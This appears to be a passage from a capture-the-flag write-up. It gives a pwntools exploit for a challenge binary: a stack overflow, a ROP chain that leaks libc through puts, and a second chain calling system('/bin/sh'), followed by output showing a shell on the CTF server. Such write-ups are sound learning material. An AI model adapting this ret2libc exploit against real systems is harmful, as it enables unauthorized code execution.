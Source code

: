 ```python
io.sendline(b'r')
io.sendline(b'a')

io.recvuntil(b'What is your name, fierce warrior? ')

ntr = b'A' * 0x68

# 0x0000000000402640 : pop rdi ; nop ; pop rbp ; ret
pop_rdi_rbp = 0x402640
rop_chain = b''.join(map(p64, [
    pop_rdi_rbp,
    elf.got['puts'],
    0x4141414141414141,
    elf.plt['puts'],
    elf.sym['_Z3winv']
    ]))

io.sendline(ntr + rop_chain)

io.recvuntil(b'We will remember you forever, ')
io.recvline()

libc_leak = u64(io.recvline().strip().ljust(8, b'\x00'))
info(f'{hex(libc_leak)=}')

libc.address = libc_leak - libc.sym['puts']
info(f'{hex(libc.address)=}')

rop = ROP(libc)
rop.system(next(libc.search(b'/bin/sh\x00')))
io.sendline(ntr + rop.chain())

io.interactive()
```

Running it enough times (not a lot, I promise) we get this:

```
# python3 exploit.py REMOTE
[*] '/shared/dnd/dnd'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[*] '/shared/dnd/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Opening connection to dnd.chals.ctfstaging.detjens.dev on port 30813: Done
[*] hex(libc_leak)='0x7efc387a4be0'
[*] hex(libc.address)='0x7efc3871d000'
[*] Loaded 111 cached gadgets for './libc.so.6'
[*] Switching to interactive mode
Congratulations! Minstrals will sing of your triumphs for millenia to come.
```